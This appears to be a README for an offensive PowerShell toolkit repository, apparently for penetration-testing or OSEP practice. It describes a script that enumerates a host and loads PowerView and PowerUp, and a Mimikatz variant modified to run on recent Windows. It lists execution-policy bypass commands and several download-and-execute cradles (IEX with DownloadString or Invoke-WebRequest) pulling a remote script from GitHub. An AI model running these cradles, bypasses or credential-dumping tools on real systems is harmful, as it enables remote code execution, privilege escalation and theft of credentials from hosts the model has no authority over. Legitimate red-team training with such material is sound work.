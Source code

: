 ```1.ps1``` does basic enumeration of host and pulls down Powerview and PowerUp modules from their original source and attempts to load as modules.

```Invoke-Mimikatz_MOD.ps1``` has been modded to execute on recent Windows versions based on - https://github.com/mitre/caldera/issues/38#issuecomment-396055260

# Bypass EP
Start PowerShell from cmd.exe:

```powershell.exe -ep bypass```

If already running:

```Set-ExecutionPolicy -Scope Process -ExecutionPolicy Bypass```

```Set-ExecutionPolicy -Scope Process -ExecutionPolicy Restricted```

```$Env:PSExecutionPolicyPreference = 'Bypass'```


# Run Script cradles

```iex (iwr "https://raw.githubusercontent.com/conma293/mvp/main/1.ps1")```

```IEX (Invoke-WebRequest -Uri "https://raw.githubusercontent.com/conma293/mvp/main/1.ps1").Content```



```IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/conma293/mvp/main/1.ps1')```

```IEX ((New-Object System.Net.webclient).DownloadString('https://raw.githubusercontent.com/conma293/mvp/main/1.ps1')).content```



# More Cradles and general good refs
https://github.com/In3x0rabl3/OSEP/blob/main/osep_reference.md#download-cradle

